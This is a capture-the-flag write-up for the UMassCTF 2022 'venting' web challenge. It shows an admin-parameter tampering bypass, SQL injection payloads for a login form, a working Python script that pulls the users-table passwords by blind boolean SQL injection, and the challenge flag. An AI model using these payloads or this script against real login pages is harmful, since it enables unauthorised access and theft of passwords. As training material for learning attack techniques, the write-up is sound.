

# UMassCTF 2022 - venting
- Write-Up Author: Tarn

- Flag: UMASS{7H35U55Y1MP0573rCr4CK57H3C0D3}

## **Question:**
venting

>Challenge description

Hmmmm. This website is kinda sus... Can you become the imposter and vent towards the flag?

http://34.148.103.218:4446

## Write up

This is the simple website with some input fields. 


When I look at the GET request, there is one parameter for verifying admin. I change the admin parameter from False to True. 


Great, then I get into another redirect URL http://34.148.103.218:4446/fff5bf676ba8796f0c51033403b35311/success.


It looks like Auth bypass, therefore I try some SQL injection payloads and find the result is different.

```
user=' or 1 or 0='1&pass=111
```



```
user=' or 0 or 0='1&pass=111
```


This is the hints that I can guess the user password by checking the True or False on SQL query. 
Finally I write the script to come out the whole password.

```
import requests

url = 'http://34.148.103.218:4446/fff5bf676ba8796f0c51033403b35311/login'
def get_table():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            #payload = f"' or (substr((select sqlite_version()),{i},1)>char({mid})) or 0='1" admin/
            payload = f"' or (substr((select group_concat(Password) from users),{i},1)>char({mid})) or 0='1"
            data = {
                'user':payload,
                'pass':'111'
            }
            url_t = url
            r = requests.post(url=url_t,data=data)
            
            if 'Invalid login' in r.text:
                high = mid
            if "You'll never log in" in r.text:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break

get_table()

```

Bingo! The password is the flag.


> UMASS{7H35U55Y1MP0573rCr4CK57H3C0D3}
